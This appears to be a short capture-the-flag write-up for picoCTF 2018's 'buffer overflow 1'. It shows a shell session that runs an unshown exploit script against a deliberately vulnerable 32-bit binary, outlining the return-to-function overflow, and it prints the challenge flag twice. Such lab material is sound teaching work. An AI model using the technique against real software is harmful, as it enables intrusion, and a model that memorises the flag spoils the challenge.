 # buffer overflow 1 - Points: 200 - (Solves: 317)

Okay now you're cooking!
This time can you overflow the buffer and return to the flag function
in this [program][2]?

You can find it in

    /problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613

on the shell server.

[Source][1]

[1]: https://2018shell2.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln.c
[2]: https://2018shell2.picoctf.com/static/d6146450a41960f6ce43dbfb300d9ef4/vuln

---

Server shell

```sh
% cd
% ln -s /problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613/flag.txt ~/
% python xpwn.py
[*] '/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613/vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process '/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613/vuln': pid 4092622
[+] Receiving all data: Done (99B)
[*] Process '/problems/buffer-overflow-1_0_787812af44ed1f8151c893455eb1a613/vuln' stopped with exit code -11 (SIGSEGV) (pid 4092622)
Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
picoCTF{addr3ss3s_ar3_3asy3656a9b3}
```

picoCTF{addr3ss3s_ar3_3asy3656a9b3}
